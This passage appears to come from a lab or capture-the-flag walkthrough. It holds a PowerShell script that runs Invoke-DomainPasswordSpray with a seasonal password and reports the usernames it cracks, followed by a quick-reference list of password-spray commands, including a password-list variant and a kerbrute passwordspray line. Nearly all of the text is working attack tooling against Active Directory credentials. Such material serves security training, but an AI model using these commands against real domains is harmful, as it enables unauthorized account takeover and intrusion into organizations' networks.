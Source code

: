 ```powershell
    Invoke-DomainPasswordSpray -Password Winter2022 -OutFile winter_results -Force -ErrorAction SilentlyContinue
    Write-Host "[+] Password spray completed" -ForegroundColor Green
}
catch {
    Write-Host "[-] Password spray failed: $($_.Exception.Message)" -ForegroundColor Red
    exit 1
}

# Check results
if (Test-Path winter_results) {
    Write-Host "[*] Checking results..." -ForegroundColor Yellow
    $results = Get-Content winter_results
    
    if ($results) {
        Write-Host "[+] SUCCESS! Found credentials:" -ForegroundColor Green
        $results | ForEach-Object {
            Write-Host "    $_" -ForegroundColor Yellow
            $username = $_.Split(':')[0]
            Write-Host "[*] Lab Answer: $username" -ForegroundColor Cyan
        }
    }
    else {
        Write-Host "[-] No successful logins found" -ForegroundColor Red
    }
}
else {
    Write-Host "[-] Results file not created" -ForegroundColor Red
}
```

---

## ⚡ Quick Reference Commands

### 🔧 **Essential Commands**
```powershell
# Import and basic spray
Import-Module .\DomainPasswordSpray.ps1
Invoke-DomainPasswordSpray -Password Winter2022 -OutFile results -Force

# Multiple passwords
Invoke-DomainPasswordSpray -PasswordList passwords.txt -OutFile results -Force

# Check results
Get-Content results
type results

# Kerbrute alternative
kerbrute.exe passwordspray -d domain.local --dc DC_IP users.txt PASSWORD
```
